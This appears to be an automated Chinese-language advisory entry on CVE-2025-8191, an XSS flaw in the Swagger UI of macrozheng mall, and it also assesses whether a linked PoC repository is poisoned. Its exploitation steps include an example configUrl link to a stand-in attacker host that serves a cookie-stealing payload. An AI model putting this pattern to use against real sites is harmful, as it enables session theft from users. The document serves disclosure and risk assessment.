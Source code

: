 ## CVE-2025-8191-macrozheng mall-XSS

**漏洞编号:** CVE-2025-8191

**漏洞类型:** XSS

**影响应用:** macrozheng mall

**危害等级:** 中危，可能导致Cookie窃取和任意代码执行

**影响版本:** <= 1.0.3

**利用条件:** 需要目标服务器开启Swagger UI并可访问，用户访问包含恶意configUrl的Swagger UI页面

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2025-8191是一个存在于macrozheng mall 1.0.3版本及其之前版本的Swagger UI中的XSS漏洞。攻击者可以通过操纵/swagger-ui/index.html的configUrl参数来注入恶意JavaScript代码。

**有效性：**
根据漏洞库信息和搜索结果，该漏洞的存在和利用方法已被公开。提供的PoC代码尝试利用configUrl参数，创建一个包含恶意JavaScript的JSON文件(xss.json)，然后通过Swagger UI加载该文件，从而触发XSS。

**投毒风险：**
PoC代码本身主要功能是生成包含XSS Payload的JSON文件，并发起请求。其中存在一定投毒风险的地方在于：
1.  **依赖项：** 使用了 `curl` 库。理论上可以通过修改URL，将受害者curl请求，指定到恶意的服务器上，存在信息泄露或者中间人攻击的风险，此概率较低。
2.  **`exitAssembly()` 函数：** 这是一个内联汇编函数，用于退出程序。虽然目的是为了在出错时退出，但理论上如果该函数被恶意修改，可以执行一些其他指令。但结合代码上下文，该风险较低。

综合判断，认为该仓库存在投毒代码的可能性较低，大约10%。

**利用方式：**
1.  攻击者需要找到目标macrozheng mall实例并确认Swagger UI已启用。
2.  攻击者使用PoC代码生成一个包含恶意JavaScript的`xss.json`文件，该文件包含一段JavaScript代码，用于窃取Cookie并将它们发送到攻击者的服务器。
3.  攻击者构造一个包含恶意`configUrl`参数的URL，指向攻击者服务器上的`xss.json`文件。例如：`http://target/swagger-ui/index.html?configUrl=http://attacker/xss.json`
4.  攻击者诱骗受害者访问该URL。受害者访问后，恶意JavaScript代码将在受害者的浏览器中执行，窃取Cookie并发送给攻击者。
5.  攻击者可以使用窃取的Cookie冒充受害者，执行未经授权的操作。

**项目地址:** [byteReaper77/CVE-2025-8191](https://github.com/byteReaper77/CVE-2025-8191)

**漏洞详情:** [CVE-2025-8191](https://nvd.nist.gov/vuln/detail/CVE-2025-8191)
